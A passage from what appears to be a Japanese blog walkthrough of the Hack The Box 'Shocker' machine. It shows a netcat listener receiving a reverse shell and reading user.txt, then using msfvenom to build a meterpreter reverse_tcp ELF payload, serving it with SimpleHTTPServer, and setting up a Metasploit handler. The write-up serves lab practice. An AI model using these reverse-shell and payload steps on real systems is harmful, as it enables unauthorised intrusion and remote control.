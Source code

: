```
10 packets received by filter
0 packets dropped by kernel
```

## reverseshellをとる

するっと取れました。
![スクリーンショット 2020-02-28 1.28.14.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1e827831-d4df-15f9-9091-5ad6bb9d3132.png)

```
kali@kali:~$ nc -lvnp 1616
listening on [any] 1616 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.56] 57580
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly

shelly@Shocker:/home/shelly$ cat user.txt
```
user.txt を取れました。

## meterpreterに繋ぎたい
msfvenom を使って meterpreter につなぐためのコードを作り、python の SimpleHTTPServer を起動します。

```
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=1313 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload                                                                                  
No encoder or badchars specified, outputting raw payload                                                                                    
Payload size: 123 bytes                                                                                                                     
Final size of elf file: 207 bytes                                                                                                           
kali@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ... 
```
別で mefconsole を起動しておきます

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > options                                                                                                                                          
                                                                                                                                                                               
Module options (exploit/multi/handler):                                                                                                                                        
                                                                                                                                                                               
   Name  Current Setting  Required  Description                                                                                                                                
   ----  ---------------  --------  -----------                                                                                                                                
                                                                                                                                                                               

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
```
